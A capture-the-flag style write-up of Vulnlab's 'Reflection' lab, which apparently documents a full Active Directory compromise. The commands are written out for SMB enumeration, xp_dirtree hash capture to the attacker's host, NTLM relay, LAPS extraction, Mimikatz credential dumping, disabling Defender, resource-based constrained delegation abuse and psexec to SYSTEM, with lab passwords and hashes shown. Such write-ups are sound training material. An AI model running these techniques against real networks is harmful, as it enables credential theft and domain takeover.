| Chain Name | Difficulty | Date Started | Date Completed |
| ---------- | ---------- | ------------ | -------------- |
| Reflection | Medium     | 06/01/2024   | 07/01/2024     |
*Vulnlab.com* 

---

**Learning Points :**
- Learned about the SMB Relay Attack and how to relay traffic through a SOCKS proxy to access services as an authenticated user through the relay.
- Discovered a new attack path: when we have `GenericAll` permissions for a computer but cannot add a computer object, we can read LAPS to see the randomized local administrator credentials using [pyLAPS.py](https://github.com/p0dalirius/pyLAPS) from a Linux host.
- Learned that **`lsadump::cache`** in Mimikatz dumps cached domain credentials stored in the **LSA (Local Security Authority)** in Windows, and that **`vault::cred /patch`** allows us to list credentials from the credential vault.
- Used **`atexec.py`** from Impacket to bypass Windows Defender by delaying our command execution.

---

**Attack Path :**
- Enumerate SMB shares on `MS01` using CrackMapExec.
- Access the **staging** share and find the `staging_db.conf` file containing the `web_staging` credentials.
- Log into the MSSQL service on `MS01` using the `web_staging` credentials.
- Perform an SMB relay attack using `impacket-ntlmrelayx` with Proxychains and `smbclient` to list and access shares.
- Find the `prod_db.conf` file and discover new credentials for `web_prod`.
- Log into the MSSQL service on **DC** using the `web_prod` credentials and enumerate databases.
- Find two credential pairs in the MSSQL database.
- Use BloodHound-python to enumerate the AD network and find that `Abbit.smith` has `GenericAll` permissions on `MS01`.
- Extract the LAPS password for `MS01` using **pyLAPS.py**.
- Log into `MS01` using `evil-winrm` and retrieve the `Reflection-MS01_User` flag.
- Disable Windows Defender on `MS01`.
- Use Mimikatz’s **`vault::cred /patch`** command to retrieve the password for `Gerogia.Price`.
- Add `MS01` to **WS01**'s `msDS-AllowedToActOnBehalfOfOtherIdentity` property and impersonate the administrator ticket on `WS01`.
- Dump the `MS01` hash using **secretsdump**.
- Use **rbcd.py** to impersonate the administrator ticket on **WS01** with **getST.py**.
- Disable Defender on **WS01** and execute **Psexec** to obtain a shell as **NT AUTHORITY\SYSTEM**. Retrieve the `Reflection-WS01_User` flag from **WS01**.
- Enumerate the BloodHound graph again and find that `DOM_RGARNER` is a domain admin.
- Use CrackMapExec to confirm credentials for **DC**.
- Log into **DC** and retrieve the `Reflection-DC01_Root` flag.


---

Activity Log :

- Started an Nmap scan and enumerated open ports on all hosts.
- Used CrackMapExec to enumerate SMB shares, but no shares were found using a null session.
- With a null session, found a read-only share named **staging** on the `MS01` host, where the MSSQL service is running.
- Discovered a `staging_db.conf` file inside the share containing credentials for the `web_staging` user, which worked on the `MS01` host.
- Logged into the MSSQL service on `MS01` using the `web_staging` credentials with `impacket-mssqlclient`.
- Unable to enable `xp_cmdshell` due to lack of permissions.
- Attempted an XP_DIRTREE hash-stealing attack using Responder and successfully captured the hash for the `svc_web_staging` user.
- Tried cracking the hash with Hashcat but failed.
- Used CrackMapExec to check for hosts with `signing = False` for SMB relay vulnerability, and found all three hosts were vulnerable.
- Performed an SMB relay attack using `impacket-ntlmrelayx`, targeting hosts in **dc01.reflection.vl** with SMBv2 support, but the attempt failed.
- Tried the `xp_dirtree` command with our IP as the SMB share and observed the connection was established but without success in relaying.
- Replaced the IP with a `hosts.txt` file containing all three IP addresses and successfully established the relay connection.
- Used SMBRelay with Proxychains and `smbclient` to list and access shares.
- Logged in without requiring passwords and discovered a `prod_db.conf` file containing credentials for the `web_prod` user.
- Logged into the MSSQL service of DC with `web_prod` credentials, enumerated databases, and found two credential pairs.
- Confirmed credentials worked using CrackMapExec.
- Launched BloodHound-python to map the Active Directory (AD) network and enumerate more data.
- Discovered that the `Abbit.smith` user had `GenericAll` permissions for the `ms01` host.
- Used CrackMapExec to check the machine quota of the domain but encountered errors with outdated updates.
- Replaced CrackMapExec with `nxc` and received a response `MachineAccountQuota: 0`, meaning we couldn’t add a computer object.
- Since we had `GenericAll`, we were able to read the LAPS password for the local administrator on `MS01`.
- Used [pyLAPS.py](https://github.com/p0dalirius/pyLAPS) to extract the local administrator's hash from the `MS01` host.
- Logged into the `MS01` host with the credentials using `evil-winrm` and retrieved the `Reflection-MS01_User` flag.
- Disabled Windows Defender with the command `Set-MpPreference -DisableRealtimeMonitoring $true` and uploaded `mimikatz.exe` to the host.
- Unable to find credentials with Mimikatz, but after uploading Meterpreter, ran `creds_all` but still didn’t find the desired credentials.
- Used the **`lsadump::cache`** command in Mimikatz to dump cached domain credentials from the LSA (Local Security Authority) and found the user `Gerogia.Price`.
- Used the **`vault::cred /patch`** command in Mimikatz to list credentials from the credential vault and retrieved the password for `Gerogia.Price`.
- Discovered that `Gerogia.Price` had `GenericAll` permissions on the **WS01** host.
- Unable to add a machine object due to no machine quota, but since we had access to **MS01**, we added **MS01** to the **WS01** `msDS-AllowedToActOnBehalfOfOtherIdentity` property.
- Used **secretsdump** to dump the machine account hash of **MS01**.
- Edited the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** property using **`rbcd.py`** from Impacket.
- Successfully impersonated the administrator ticket on **WS01** using **`getST.py`**.
- Exported the ticket and attempted to execute **Psexec** to obtain a shell on **WS01**, but the payload was detected and blocked by Windows Defender.
- Used **secretsdump** to extract hashes from **WS01** and successfully dumped a clear-text password for the user `Rhys.Garner`.
- Executed PowerShell commands as an administrator on **WS01** using Impacket's **atexec** and disabled Windows Defender.
- Successfully executed **Psexec** and obtained a shell on **WS01** as **NT AUTHORITY\SYSTEM**.
- Retrieved the `Reflection-WS01_User` flag from the user’s desktop.
- Re-enumerated the BloodHound graph and discovered that the user `DOM_RGARNER` was a domain admin.
- Verified the credentials for the **DC** using **CrackMapExec** and confirmed access as an administrator.
- Logged into the **DC** and retrieved the `Reflection-DC01_Root` flag.

---

| Host   | Host Name          | IP Address    | Status  |
| ------ | ------------------ | ------------- | ------- |
| Host A | DC01.reflection.vl | 10.10.233.149 | Changed |
| Host B | MS01.reflection.vl | 10.10.233.150 | Changed |
| Host C | WS01.reflection.vl | 10.10.233.151 | Changed |

*Default Nmap Scan Host A :*
```
# Nmap 7.94SVN scan initiated Mon Jan  6 21:22:43 2025 as: nmap -sC -sV -Pn -oA HostA 10.10.233.149
Nmap scan report for 10.10.233.149
Host is up (0.20s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-06 15:52:59Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: reflection.vl0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc01.reflection.vl
| Not valid before: 2025-01-05T15:52:01
|_Not valid after:  2025-07-07T15:52:01
| rdp-ntlm-info: 
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: dc01.reflection.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-06T15:53:11+00:00
|_ssl-date: 2025-01-06T15:53:51+00:00; -1s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
| smb2-time: 
|   date: 2025-01-06T15:53:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  6 21:23:58 2025 -- 1 IP address (1 host up) scanned in 75.27 seconds
```

_Later, it was found that the Domain Controller (DC) also had an MSSQL Server running, but it was not visible in the scan mentioned above._

*MSSQL Port scan Host A :*
```
# Nmap 7.94SVN scan initiated Mon Jan  6 22:26:08 2025 as: nmap -p 1433 -Pn -sC -sV -oA HostA_mssql 10.10.233.149
Nmap scan report for 10.10.233.149
Host is up (0.19s latency).
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2025-01-06T16:56:19+00:00; -2s from scanner time.
| ms-sql-info: 
|   10.10.233.149:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| ms-sql-ntlm-info: 
|   10.10.233.149:1433: 
|     Target_Name: REFLECTION
|     NetBIOS_Domain_Name: REFLECTION
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: reflection.vl
|     DNS_Computer_Name: dc01.reflection.vl
|     DNS_Tree_Name: reflection.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-06T15:54:53
|_Not valid after:  2055-01-06T15:54:53
```

*Default Nmap Scan Host B :*
```
# Nmap 7.94SVN scan initiated Mon Jan  6 21:22:48 2025 as: nmap -sC -sV -Pn -oA HostB 10.10.233.150
Nmap scan report for 10.10.233.150
Host is up (0.21s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.233.150:1433: 
|     Target_Name: REFLECTION
|     NetBIOS_Domain_Name: REFLECTION
|     NetBIOS_Computer_Name: MS01
|     DNS_Domain_Name: reflection.vl
|     DNS_Computer_Name: ms01.reflection.vl
|     DNS_Tree_Name: reflection.vl
|_    Product_Version: 10.0.20348
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-01-06T15:52:13
|_Not valid after:  2055-01-06T15:52:13
| ms-sql-info: 
|   10.10.233.150:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2025-01-06T15:53:59+00:00; -2s from scanner time.
3389/tcp open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-01-06T15:53:59+00:00; -2s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: MS01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: ms01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2025-01-06T15:53:20+00:00
| ssl-cert: Subject: commonName=ms01.reflection.vl
| Not valid before: 2025-01-05T15:51:40
|_Not valid after:  2025-07-07T15:51:40
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
| smb2-time: 
|   date: 2025-01-06T15:53:22
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  6 21:24:02 2025 -- 1 IP address (1 host up) scanned in 73.71 seconds
```

*Default Nmap Scan Host C :*
```
# Nmap 7.94SVN scan initiated Mon Jan  6 21:35:36 2025 as: nmap -sC -sV -Pn -oA HostC 10.10.233.151
Nmap scan report for 10.10.233.151
Host is up (0.19s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=ws01.reflection.vl
| Not valid before: 2025-01-05T15:54:02
|_Not valid after:  2025-07-07T15:54:02
| rdp-ntlm-info: 
|   Target_Name: REFLECTION
|   NetBIOS_Domain_Name: REFLECTION
|   NetBIOS_Computer_Name: WS01
|   DNS_Domain_Name: reflection.vl
|   DNS_Computer_Name: ws01.reflection.vl
|   DNS_Tree_Name: reflection.vl
|   Product_Version: 10.0.19041
|_  System_Time: 2025-01-06T16:06:31+00:00
|_ssl-date: 2025-01-06T16:07:11+00:00; -2s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -2s, deviation: 0s, median: -2s
| smb2-time: 
|   date: 2025-01-06T16:06:35
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  6 21:37:13 2025 -- 1 IP address (1 host up) scanned in 96.95 seconds
```

We enumerated SMB shares using CrackMapExec without any parameters but were not able to find anything.



We tried as a null session and were able to see a read-only share named **staging** in the `MS01` host, where the MSSQL service is running.



We found a `staging_db.conf` file inside the share.



We found the credentials of the user `web_staging` inside the file.



```
web_staging:Washroom510 \ staging
```

The credentials worked on the `MS01` host.



We were also able to log in to the MSSQL service using the credentials with `impacket-mssqlclient`.



However, we didn't have permission to enable the `xp_cmdshell`.



We tried an XP_DIRTREE Hash Stealing attack as outlined in the [[Attacking SQL Databases]] module from HTB Academy, and using Responder, we got the hash of the user `svc_web_staging`.

```
EXEC master..xp_dirtree '\\10.8.4.157\share\'
```

_Tried to attack using the XP_SUBDIRS Hash Stealing method as well, but failed.._



We tried to crack it using Hashcat but failed.




### SMB Relay Attack 

>_An **SMB Relay Attack** is a **Man-in-the-Middle (MitM)** attack where an attacker intercepts and relays **SMB (Server Message Block)** authentication requests between a victim and a target server. It exploits **NTLM authentication** to impersonate the victim and gain unauthorized access to network resources without cracking passwords._

We used CrackMapExec to check which hosts had `signing = False` for relaying and found that all three hosts had it set to false, meaning they were vulnerable to the attack.

```
crackmapexec smb 10.10.233.149-10.10.233.151 --gen-relay-list relay.txt
```



We used `impacket-ntlmrelayx` to perform an SMB relay attack targeting hosts in **dc01.reflection.vl** with SMBv2 support and set up a SOCKS proxy for pivoting. ==(This attempt failed)==

```
impacket-ntlmrelayx -tf dc01.reflection.vl -socks -smb2support
```



We used the `xp_dirtree` command with our IP as the SMB share and executed the same command as before. We were able to see that a connection was established but did not see a SUCCESS message indicating that it was connected and relaying.



Added port 1080 to the proxychains.conf and tried to access the relay to enumerate shares, but it didn't work.


Later, I realized that I had added 8080 instead of 1080. However, it wouldn't work even if it was fixed here.

---

We replaced the IP with the `hosts.txt` file containing all three IP addresses and tried again. We were successfully able to establish the relay connection.



Now, using SMBRelay with Proxychains and `smbclient`, we were able to list and access the shares.



_No passwords were needed for the user when authenticating._

We logged in and were able to see a `prod_db.conf` file.



_Also tried CrackMapExec with Proxychains, but it didn't work._



We found new credentials for a user, `web_prod`. :



```
web_prod:Tribesman201 \ prod
```

---

##### Enumerating MSSQL Service

We logged into the MSSQL service of DC using the credentials of `web_prod`, and after enumerating the databases and tables, we were able to find two credential pairs.

```
SQL (web_prod  guest@master)> SELECT name FROM sys.databases;
name     
------   
master   
tempdb   
model    
msdb     
prod     

SQL (web_prod  guest@master)> USE prod;
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: prod
[*] INFO(DC01\SQLEXPRESS): Line 1: Changed database context to 'prod'.
SQL (web_prod  dbo@prod)> SELECT * FROM information_schema.tables;
TABLE_CATALOG   TABLE_SCHEMA   TABLE_NAME   TABLE_TYPE   
-------------   ------------   ----------   ----------   
prod            dbo            users        b'BASE TABLE'   

SQL (web_prod  dbo@prod)> SELECT * FROM users;
id   name              password            
--   ---------------   -----------------   
 1   b'abbie.smith'    b'CMe1x+nlRaaWEw'   
 2   b'dorothy.rose'   b'hC_fny3OK9glSJ'
```

Using CrackMapExec, we were able to confirm that the credentials worked.



----

##### Bloodhound Enumeration - GenericAll Abuse

Using the credentials, we then launched BloodHound-python to get the graph of the AD network and enumerate more.



While looking at the imported BloodHound data, we were able to see that the `Abbit.smith` user had `GenericAll` permission for the `ms01` host.


First, we used CrackMapExec to check the available machine quota of the domain, but the tool didn't work, probably due to the old update.



We replaced CrackMapExec with `nxc` and received the response `MachineAccountQuota: 0`, so we can't add a computer object.




**However, since we have GenericAll, we can read LAPS on MS01 which is a randomized password for local administrator**

Tried to use CrackMapExec, but it didn't work.



Since CrackMapExec didn't work, we used [pyLAPS.py](https://github.com/p0dalirius/pyLAPS) and were able to get the Administrator's hash of the `MS01` host.

```
python3 pyLAPS.py --action get --dc-ip 10.10.233.149 -u 'abbie.smith' -p 'CMe1x+nlRaaWEw'
------------------------------------------------------------------------
MS01$                : H447.++h6g5}xi
```



Using the credentials, we were able to use `evil-winrm` to access the `MS01` host and retrieve the `Reflection-MS01_User` flag.



We disabled Windows Defender using the `Set-MpPreference -DisableRealtimeMonitoring $true` command and uploaded `mimikatz.exe` to the host.

```
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

But couldn't find anything. We also uploaded a Meterpreter shell, loaded Mimikatz from it, and ran `creds_all`, but still didn't get the credentials we were looking for.



We used the **`lsadump::cache`** command in Mimikatz and were able to dump cached domain credentials stored in the **LSA (Local Security Authority)**. During this process, we found a user `Gerogia.Price`.



We used the **`vault::cred /patch`** command in Mimikatz to list the credentials from the credential vault and retrieved the password of the user `Gerogia.Price`.



```
Gerogia.Price:DBl+5MPkpJg5id
```

We observed that this user had **GenericAll** permission on the **WS01** host.


We knew that there was no machine quota available, but we had access to **MS01**. We were able to add that machine in **WS01’s** `msDS-AllowedToActOnBehalfOfOtherIdentity` property. 

To achieve this, we needed to obtain the **NThash** of **MS01**. We used **secretsdump** to dump the machine account hash of **MS01**.



We edited the **`msDS-AllowedToActOnBehalfOfOtherIdentity`** property using **`rbcd.py`** from Impacket.

```
rbcd.py -action write -delegate-to "WS01$" -delegate-from "MS01$" -dc-ip 10.10.169.213 "Reflection/Georgia.Price:DBl+5MPkpJg5id"
```




After adding the property, we were able to impersonate the administrator ticket on **WS01** using **`getST.py`**.

```
impacket-getST -spn 'cifs/WS01.reflection.vl' -impersonate Administrator -dc-ip 10.10.169.213 'Reflection/MS01$' -hashes ':97aba06a34bac078d0db8b28a1f0736f'
```



We exported the ticket to launch the attack directly from the **Falcon** itself.



We attempted to execute **Psexec** to obtain a shell on the **WS01** host using the exported ticket. However, our payload was detected and blocked by **Defender**.



We used **secretsdump** to extract the hashes from the **WS01** host and successfully dumped a clear-text password for the user **`Rhys.Garner`**.



```
`Rhys.Garner`:knh1gJ8Xmeq+uP
```

We used Impacket's **atexec** tool to execute PowerShell commands on the **WS01** host as an administrator and successfully disabled **MS Defender**.


We were then able to execute **Psexec** and obtain a shell on the **WS01** host as **NT AUTHORITY\SYSTEM**. From there, we retrieved the **`Reflection-WS01_User`** flag from the desktop of the user.



After enumerating the BloodHound graph again, we discovered that the user **`DOM_RGARNER`** was a domain admin of the domain. This username closely resembled **`Rhys.Garner`**. 



We used **crackmapexec** to test the credentials for the **DC** and confirmed that we had access as an administrator.



Finally, we were able to log in to the **DC** and retrieve the **`Reflection-DC01_Root`** flag.



---

